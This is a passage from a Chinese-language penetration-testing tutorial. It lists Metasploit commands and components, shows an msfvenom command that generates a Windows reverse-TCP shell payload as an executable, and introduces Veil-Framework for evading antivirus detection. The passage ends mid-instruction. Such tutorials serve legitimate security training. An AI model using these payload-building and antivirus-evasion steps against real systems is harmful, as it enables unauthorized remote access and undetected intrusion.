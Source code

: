 +   `show options`：列出所需的选项

+   `msfupdate`：更新 Metasploit

+   `use`：使用模块

+   `search`：搜索功能

+   `exploit`：启动利用

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/adv-infra-pentest/img/00210.jpeg)

在深入了解 Metasploit 强大的命令之前，让我们先检查 Metasploit 框架的组件：

+   `msfpayload`：在利用后要在目标机器上运行的脚本。

+   `msfencode`：用于避免检测有效载荷的神奇实用程序。

+   `msfvenom`：这类似于前两个实用程序的组合。这是 Metasploit 中的一个新功能：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/adv-infra-pentest/img/00211.jpeg)

您可以通过输入以下内容来检查可用的有效载荷格式：

```
# msfvenom --help-formats
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/adv-infra-pentest/img/00212.jpeg)

例如，如果要生成 Windows 有效载荷，请输入以下内容：

```
# msfvenom -p windows/shell/reverse_tcp LHOST=[YourIPaddress]
```

```
LPORT=8080  - f exe > [A_Specific_PATH]/  payload.exe
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/adv-infra-pentest/img/00213.jpeg)

# 使用 Veil-Framework 绕过防病毒软件

作为渗透测试人员，永远记住您正在模拟真实世界的攻击，在现实世界中，黑客正在尝试使用许多技术绕过防病毒保护。**Veil-Framework** 是一个避免有效载荷检测的绝妙工具。要安装 Veil 3.0，您需要从其官方 GitHub 来源[`github.com/Veil-Framework/Veil`](https://github.com/Veil-Framework/Veil)下载它：

```
# git clone https://github.com/Veil-Framework/Veil
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/adv-infra-pentest/img/00214.jpeg)

现在您只需要从辅助主菜单中选择一个任务：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/adv-infra-pentest/img/00215.gif)

要生成有效载荷，请选择`list`，然后输入`use 1`：

